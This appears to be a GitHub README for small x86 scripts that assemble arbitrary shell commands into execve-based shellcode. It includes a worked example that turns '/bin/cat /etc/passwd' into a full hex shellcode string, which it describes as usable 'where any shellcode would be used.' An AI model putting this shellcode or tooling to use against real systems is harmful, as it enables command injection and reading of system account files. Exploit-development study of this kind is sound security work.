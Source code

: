 reversingtools - x86
====================
x86 Tools and Scripts

comp_and_dump.sh - compiles .asm files with nasm, links them with ld, dumps the bytecode with objdump, and turns it into shellcode with '\x' characters in front for quick use. Reads from shl.asm and outputs shl.o and shl (the executable you should test)
packWord.pl - packs a string into hex, use the -r option for reverse (good for pushing a string to the stack for shellcode)
doshcommandinssembly.pl - takes all arguments, converts them to hex, and uses a template to run execve("/bin/sh", ["/bin/sh", "-c", "{your args}", NULL], NULL) to call them in assembly. Outputs program as shl.asm.
I'll probably update these tools to take in a user supplied output filename (or at the very least cleanup the files after)

Example: ./doshcommandinassembly.pl /bin/cat /etc/passwd & ./comp_and_dump.sh
Output: \x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xd0\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x68\x2d\x63\x11\x11\x66\x89\x44\x24\x02\x89\xe1\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x20\x2f\x65\x74\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe6\x50\x56\x51\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x89\xc3\xb0\x01\xcd\x80
The output can be used where any shellcode would be used and will print the contents of /etc/passwd to the screen

